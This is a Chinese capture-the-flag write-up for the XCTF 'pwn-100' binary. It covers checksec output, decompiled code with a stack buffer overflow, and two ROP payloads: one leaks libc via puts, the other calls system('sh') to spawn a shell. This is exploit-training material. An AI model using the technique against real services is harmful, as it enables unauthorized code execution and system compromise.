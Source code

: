 # pwn-100

题目来源：https://adworld.xctf.org.cn/task/

这道题从内容来说并不特别，经过之前几道题的锻炼，基本熟悉了这题目的套路，不过这道题到最后还是踩坑了，这个坑点在这里就先说明一下，做题一定注意 send 和 sendline 的区别，sendline 最终会多发送一个回车。那么首先看一下这道题的安全防护情况：

```
Arch:     amd64-64-little                                                
RELRO:    Partial RELRO                                                   
Stack:    No canary found                                                    
NX:       NX enabled                                                      
PIE:      No PIE (0x400000)
```

经典没有 canary 和 PIE，那么也就是说很可能缓冲区溢出，并且利用 ROP 链来攻击，再来看代码：

```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  sub_40068E();
  return 0LL;
}

int sub_40068E()
{
  char v1; // [rsp+0h] [rbp-40h]

  sub_40063D((__int64)&v1, 200);
  return puts("bye~");
}

__int64 __fastcall sub_40063D(__int64 a1, signed int a2)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (signed int)i >= a2 )
      break;
    read(0, (void *)((signed int)i + a1), 1uLL);
  }
  return result;
}
```

主要的溢出点在 sub_40068E 中，这里面缓冲区大小是 0x40，但是可以允许输入的长度是 200(第一次做的时候以为 0x40 是 640...)。那么做法还是溢出加上泄露 libc，因为这个文件中没有提供任何有关 libc 的函数。因此根据 sub_40063D 函数的逻辑先构造泄露 read 函数地址的字符串：

```
'a'*0x48 + p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main_addr) + 'a'*96
```

当收到了 read 的真实地址之后，通过 LibcSearcher 暴露 libc 基址，最后获取 system 和 sh 的地址。

```
'a'*0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr) + 'a'*104
```

这里就和开头说的一样，一定要注意 send 和 sendline 的区别，因为这里的逻辑中 read 是一位一位度，使用 sendline 在测试的时候会出现问题，不能达到预期的行为。